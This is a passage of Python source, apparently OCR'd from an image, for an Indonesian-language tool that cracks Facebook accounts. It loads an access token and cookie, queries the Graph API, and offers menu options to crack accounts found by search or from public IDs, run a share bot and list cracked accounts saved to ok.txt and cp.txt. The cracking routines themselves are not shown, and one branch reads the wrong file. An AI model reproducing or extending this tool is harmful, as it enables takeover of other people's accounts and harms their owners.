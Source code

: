 		os.system("rm -f data/token.txt data/cookie.txt")
		print(" [!] cookie tidak valid")
		sys.exit()
		
def menu():
	try:
		token = open("token.txt","r").read()
		cok = open("cookie.txt","r").read()
		cookie = {"cookie":cok}
		nama = ses.get(f"https://graph.facebook.com/me?fields=name,id&access_token={token}",cookies=cookie).json()["name"]
	except (KeyError,IOError):
		login()
	os.system("clear")
	print("   _______ __                  __        \n  |     __|__|.--------.-----.|  |.-----.\n  |__     |  ||        |  _  ||  ||  -__|\n  |_______|__||__|__|__|   __||__||_____|\n                       |__|              ")
	print(" [*] ---------------------------------------") 
	print(" [+] Author : https://fb.com/fallxavier.xyz") 
	print(" [+] GitHub : https://github.com/Fall-Xavier")
	print(" [*] ---------------------------------------")
	print(f"\n [ selamat datang {K}{nama}{N} ]\n")
	print(" [1]. crack dari pencarian")
	print(" [2]. crack dari id publik")
	print(" [3]. bot share via graph")
	print(" [4]. lihat akun hasil crack")
	ask = input("\n [?] pilih : ")
	if ask in["1"]:
		pencarian()
	elif ask in["2"]:
		publik(token,cookie)
	elif ask in["3"]:
		bot_share(token,cookie)
	elif ask in["4"]:
		print("\n [1] lihat akun hasil crack ok")
		print(" [2] lihat akun hasil crack cp")
		hasil = input("\n [?] pilih : ")
		if hasil in["1"]:
			try:hasilok = open("ok.txt").read().splitlines()
			except:exit(f" [!] tidak ada file ok, silahkan crack dulu")
			print(" [#] ----------------------------------------------")
			print(f" [+] total akun hasil crack ok : {len(hasilok)}")
			print(f" [#] ----------------------------------------------{H}")
			os.system("cat ok.txt")
			exit(f"\n\n {N}[#] selesai cek ...")
		elif hasil in["2"]:
			try:hasilcp = open("ok.txt").read().splitlines()
			except:exit(f" [!] tidak ada file cp, silahkan crack dulu")
			print(" [#] ----------------------------------------------")
			print(f" [+] total akun hasil crack ok : {len(hasilcp)}")
			print(f" [#] ----------------------------------------------{K}")
			os.system("cat cp.txt")
			exit(f"\n\n {N}[#] selesai cek ...")
		else:menu()
	